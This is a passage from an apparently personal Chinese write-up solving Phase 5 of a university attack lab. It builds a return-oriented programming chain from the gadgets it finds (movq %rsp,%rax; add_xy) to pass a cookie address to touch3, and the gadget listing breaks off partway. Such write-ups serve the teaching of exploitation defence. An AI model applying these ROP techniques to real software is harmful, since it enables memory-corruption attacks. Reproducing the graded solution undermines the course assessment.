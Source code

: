 现在是晚上 23:20，我本来已经头昏眼花准备就寝明日再战。但看到这段话，好家伙，不仅没把我劝退，还让我的困意一下子消失，精神振奋了起来。

**长缨已在手，缚住苍龙就在今日！**

### 分析

本题的任务与`Phase 3`相同，都是要求返回到`touch3`函数

`Phase 3`中用到的注入代码为：

```assembly
movq    $0x5561dca8, %rdi
pushq   $0x4018fa
ret
```

其中`0x5561dca8`是栈中`cookie`存放的地址。

而在本题中，栈的位置是随机的，把`cookie`存放在栈中似乎不太现实，但是我们又不得不这样做，那么有什么办法呢？只能在代码中获取`%rsp`的地址，然后根据偏移量来确定`cookie`的地址。想到这，思路就明晰了。

查表，`movq %rsp, xxx`表示为`48 89 xx`，查找一下有没有可用的`gadget`

```assembly
0000000000401aab <setval_350>:
  401aab:       c7 07 48 89 e0 90       movl   $0x90e08948,(%rdi)
  401ab1:       c3                      retq
```

还真找到了，`48 89 e0`对应的汇编代码为

```assembly
movq %rsp, %rax
```

地址为：`0x401aad`

根据提示，有一个`gadget`一定要用上

```assembly
 00000000004019d6 <add_xy>:
   4019d6:       48 8d 04 37             lea    (%rdi,%rsi,1),%rax
   4019da:       c3                      retq
```

地址为：`0x4019d6`

通过合适的赋值，这段代码就能实现`%rsp`加上段内偏移地址来确定`cookie`的位置

剩下部分流程与`Phase 3`一致，大体思路如下：

- 先取得栈顶指针的位置
- 取出存在栈中得偏移量的值
- 通过`lea    (%rdi,%rsi,1),%rax`得到 cookie 的地址
- 将 cookie 的地址传给`%rdi`
- 调用`touch 3`

由于`gadget`的限制，中间的细节需要很多尝试，尝试过程不再一一列举了，我们直接给出代码

```assembly
#地址：0x401aad
movq %rsp, %rax
ret

#地址：0x4019a2
movq %rax, %rdi
ret

#地址：0x4019cc
popq %rax
ret

#地址：0x4019dd
movl %eax, %edx
```